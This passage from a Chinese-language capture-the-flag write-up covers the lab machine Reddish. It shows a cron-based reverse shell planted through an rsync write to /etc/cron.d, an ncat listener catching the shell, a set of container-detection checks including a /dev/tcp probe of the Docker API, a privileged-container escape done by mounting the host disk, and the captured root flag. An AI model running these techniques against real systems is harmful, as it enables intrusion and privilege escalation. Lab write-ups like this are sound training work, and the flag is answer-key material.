# echo '* * * * * root sh /tmp/shell.sh' > shell
# ls
backdoor.php
ncat
proc.sh
shell
shell.sh
# rsync -a shell rsync://backup:873/src/etc/cron.d/
```

在172.20.0.3上监听

成功横向



```
$ ./ncat -lvnp 9999
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.20.0.2.
Ncat: Connection from 172.20.0.2:57856.
/bin/sh: 0: can't access tty; job control turned off
# ip con
Object "con" is unknown, try "ip help".
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
# 

```

## docker-特权容器逃逸（backup宿主机）

docker逃逸信息收集

<https://blog.mo60.cn/index.php/archives/645.html>

2.1 判断是否为容器环境

root权限情况下使用下面的命令去判断

```
cat /proc/1/cgroup | grep -qi docker && echo "Is Docker" || echo "Not Docker"
```

```
#判断特权模式
cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
#挂载DockerSocket
ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." || echo "Docker Socket is not mounted."
#挂载procfs
find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted."
#挂载宿主机根目录
find / -name passwd 2>/dev/null | grep /etc/passwd | wc -l | grep -q 7 && echo "Root directory is mounted." || echo "Root directory is not mounted."
#dockerremoteapi未授权访问
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
```

接下来我们就尝试docker逃逸

```
cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
```

由于其是特权容器，所以挂载宿主机根目录就可以逃逸



```
# cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
Is privileged mode
# 


挂载
# mkdir /tmp/1
# mount /dev/sda2 /tmp/1
# cd /tmp/1
# ls


# ls
# pwd
/tmp/1/mnt
# cd ../
# ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
a3712ceefd4036951200ea631616fa94
# 
```




参考链接：

官方wp还有n位不知名的佬的

<https://www.c1trus.top/37-%E9%9D%B6%E6%9C%BAwp/4-htb/tracks/1-htb-8-year-birthday/2.reddish.html>

<https://www.cnblogs.com/autopwn/p/14120180.html>

​
